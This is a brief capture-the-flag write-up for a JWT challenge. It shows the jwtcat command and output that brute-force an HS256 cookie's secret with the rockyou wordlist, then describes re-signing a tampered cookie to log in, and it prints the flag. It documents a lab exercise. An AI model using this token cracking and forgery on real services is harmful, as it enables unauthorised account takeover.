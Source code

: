 ## Author: p4w
## Description:
![img ](./description.png)

* we have an endpoint that give us a JWT HS256 signed cookie back
* bruteforce the cookie with this tool <a href='https://github.com/aress31/jwtcat'>jwtcat</a>

* command:
```
$ python3 jwtcat.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.jbf34kzJ36YbWPQU69k-mlieDVmaWiIiAs6jPU1mH4o -w /usr/share/wordlists/rockyou.txt
[INFO] JWT: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.jbf34kzJ36YbWPQU69k-mlieDVmaWiIiAs6jPU1mH4o
[INFO] Wordlist: /usr/share/wordlists/rockyou.txt
[INFO] Starting brute-force attacks
jwtcat.py:110: DeprecationWarning: The 'warn' method is deprecated, use 'warning' instead
  logger.warn("Pour yourself some coffee, this might take a while..." )
[WARNING] Pour yourself some coffee, this might take a while...
[INFO] Secret key: fuckit
[INFO] Secret key saved to location: jwtpot.potfile
[INFO] Finished in 0.13006305694580078 sec
```

* so we foubnd the private key, now we can tamper the cookie and resign it. To do that I used https://jwt.io/

![img ](./tamper-jwt-cookie.png)

* now we can just set it and login with this and get the flag

* flag `LLS{jawt_was_just_what_you_thought}`
